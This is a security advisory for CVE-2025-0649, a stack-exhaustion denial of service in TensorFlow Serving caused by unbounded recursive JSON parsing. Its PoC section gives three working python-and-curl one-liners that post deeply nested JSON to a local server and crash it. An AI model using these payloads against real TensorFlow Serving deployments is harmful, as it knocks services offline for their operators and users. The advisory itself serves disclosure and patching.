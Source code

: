 ```yaml
---
description: CVE-2025-0649 High severity. Tensorflow Serving Stack Exhaustion DoS
title: Tensorflow Serving Stack Exhaustion DoS
date_published: "2025-05-06"
last_updated: "2025-05-06"
xray_id:
vul_id: CVE-2025-0649
cvss: 8.9
severity: high
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
This vulnerability allows unauthenticated remote attackers to cause the server to stop responding to requests due to a stack exhaustion when parsing malformed JSON input

## Component

[Tensorflow Serving](https://github.com/tensorflow/serving)



## Affected versions

(, 2.17.0]



## Description

TensorFlow Serving uses RapidJSON to process JSON input. The function [ParseJson](https://github.com/tensorflow/serving/blob/6e0d7a5f00d15a2d73b8cd3411b6dcbe6b25d0b1/tensorflow_serving/util/json_tensor.cc#L419) in [json-tensor.cc](https://github.com/tensorflow/serving/blob/master/tensorflow_serving/util/json_tensor.cc) uses RapidJSON’s ParseStream function [to parse the JSON input](https://github.com/tensorflow/serving/blob/6e0d7a5f00d15a2d73b8cd3411b6dcbe6b25d0b1/tensorflow_serving/util/json_tensor.cc#L431). The default behavior of RapidJSON’s parsing function is [to parse the input recursively](https://rapidjson.org/md_doc_features.html#Parsing:~:text=Parsing-,Recursive (default),-and iterative parser) with no limit on the recursion depth. A malicious JSON string with an array or object that are deeply nested in each other can cause the server to crash.



## PoC

Run TensorFlow Serving using the instructions in the page: https://www.tensorflow.org/tfx/serving/docker.

Then, run any of the following commands in a shell -

1. ```
   python -c 'print("{\"instances\": [1.0, 2.0, 5.0],\"signature_name\":" + "[" * 500000 + "]" * 500000 + "}")' > /tmp/malicious.txt curl -v -d @/tmp/malicious.txt -X POST http://localhost:8501/v1/models/half_plus_two:predict
   ```

2. ```
   python -c 'print("{\"instances\": [1.0, 2.0, 5.0],\"signature_name\":" + "[" * 50000 + "]" * 50000 + "}")' > /tmp/malicious.txt curl -v -d @/tmp/malicious.txt -X POST http://localhost:8501/v1/models/half_plus_two:predict
   ```

3. ```
   python -c 'print("{\"instances\":" + "[" * 50000 + "1" + "]" * 50000 + "}")' > /tmp/malicious.txt curl -v -d @/tmp/malicious.txt -X POST http://localhost:8501/v1/models/half_plus_two:predict
   ```

The server will crash.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix commit](https://github.com/tensorflow/serving/commit/6cb013167d13f2ed3930aabb86dbc2c8c53f5adf)

